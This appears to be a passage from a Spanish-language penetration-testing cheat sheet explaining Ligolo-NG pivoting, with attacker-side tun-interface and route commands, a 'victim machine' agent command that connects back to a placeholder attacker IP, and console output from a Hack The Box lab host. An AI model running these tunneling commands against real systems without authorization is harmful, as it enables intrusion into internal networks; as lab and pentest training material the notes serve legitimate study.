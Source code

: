 ## [Ligolo-NG](https://github.com/nicocha30/ligolo-ng/blob/master/README.md) 🔗

Esta herramienta es MUCHO mejor que Chisel, con ella puedes hacer **PortForwarding** a todos los puertos de una interfaz interna de la máquina víctima.

#### EJEMPLO
La dirección IP interna de la víctima es 172.16.198.10 y quieres tener conectividad directa con esta IP y el resto de la red.

#### MÁQUINA ATACANTE (Linux)
```
sudo ip tuntap add user <username-linux> mode tun ligolo
sudo ip link set ligolo up
ip route add 172.16.198.0/24 dev ligolo

./proxy -selfcert
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-interfaces.png" width="60%" height="60%"><br>

#### MÁQUINA VÍCTIMA (Linux)
```
./agent -connect <IP-ATACANTE>:11601 -ignore-cert
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-victima.png" width="60%" height="60%"><br>

#### MÁQUINA ATACANTE (Linux)
```
ligolo-ng » INFO[0037] Agent joined.                                 name="HTB\\svc-alfresco@FOREST" remote="10.10.10.161:53939"
ligolo-ng » 
ligolo-ng » session  # TIENES QUE ESCRIBIR 'session'.
? Specify a session : 1 - HTB\svc-alfresco@FOREST - 10.10.10.161:53939  #  AQUÍ ESCRIBES '1'.
ligolo-ng » start  # TIENES QUE ESCRIBIR 'start'.
```
